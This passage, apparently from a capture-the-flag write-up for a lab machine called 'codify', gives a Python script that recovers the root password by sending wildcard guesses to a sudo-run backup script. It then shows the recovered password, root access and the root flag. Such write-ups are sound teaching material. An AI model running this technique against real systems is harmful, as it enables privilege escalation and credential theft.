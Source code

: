 Here's a little script to do so:

```python
import subprocess
from string import digits,ascii_letters
characters = ascii_letters+digits
password = ""
found = False
while not found:
	for char in characters:
		cmd=f"echo {password}{char}* | sudo /opt/scripts/mysql-backup.sh"
		out=subprocess.run(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout
		if "Password confirmed!" in out:
			password+=char
			print(f"Password: {password}")
			break
	else:
		found = True
		print(f"Password Found! {password}")
```

Running the script does the following:

```
Password: k
Password: kl
Password: klj
Password: kljh
Password: kljh1
Password: kljh12
Password: kljh12k
Password: kljh12k3
Password: kljh12k3j
Password: kljh12k3jh
Password: kljh12k3jha
Password: kljh12k3jhas
Password: kljh12k3jhask
Password: kljh12k3jhaskj
Password: kljh12k3jhaskjh
Password: kljh12k3jhaskjh1
Password: kljh12k3jhaskjh12
Password: kljh12k3jhaskjh12k
Password: kljh12k3jhaskjh12kj
Password: kljh12k3jhaskjh12kjh
Password: kljh12k3jhaskjh12kjh3
Password Found! kljh12k3jhaskjh12kjh3
```

Now using the root password `kljh12k3jhaskjh12kjh3` with `su root`, we get our root flag!

```
root@codify:/tmp# cd /root
root@codify:~# cat root.txt
53f47a17e6e8528bf69bd05b004de526
```
